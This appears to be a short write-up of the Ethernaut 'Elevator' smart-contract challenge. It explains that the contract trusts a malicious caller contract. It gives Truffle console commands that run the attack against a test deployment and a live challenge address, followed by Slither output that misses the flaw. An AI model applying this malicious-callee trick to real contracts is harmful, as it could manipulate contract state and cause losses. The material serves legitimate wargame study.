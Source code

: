 # Elevator

[Elevator](https://ethernaut.openzeppelin.com/level/0x4A151908Da311601D967a6fB9f8cFa5A3E88a251)


`Elevator` calls into a malicious contract, which customizes its response to exploit the caller.


<BR />

## Test Attack

```JS
el = await Elevator.deployed()
attack = await Attack.deployed()

await el.top()
await attack.goTo(11)
await el.top()
```

<BR />

## Live Attack

```JS
el = await Elevator.at("0xaef17A18bd4ec8abCE38EeE6B054242a69482D11")
attack = await Attack.deployed()

await el.top()
await attack.goTo(11)
await el.top()
```


<BR />


## Vulnerability Testing Tools


<BR />

### Slither

Not Detected.

```BASH
solc-select use 0.8.0
slither ./contracts/Elevator.sol  --truffle-ignore-compile  --exclude-optimization 
```

```
Pragma version^0.8.0 (contracts/Building.sol#2) allows old versions
Pragma version^0.8.0 (contracts/Elevator.sol#2) allows old versions
solc-0.8.0 is not recommended for deployment
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity

Parameter Elevator.goTo(uint256)._floor (contracts/Elevator.sol#10) is not in mixedCase
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#conformance-to-solidity-naming-conventions
./contracts/Elevator.sol analyzed (2 contracts with 76 detectors), 4 result(s) found
```
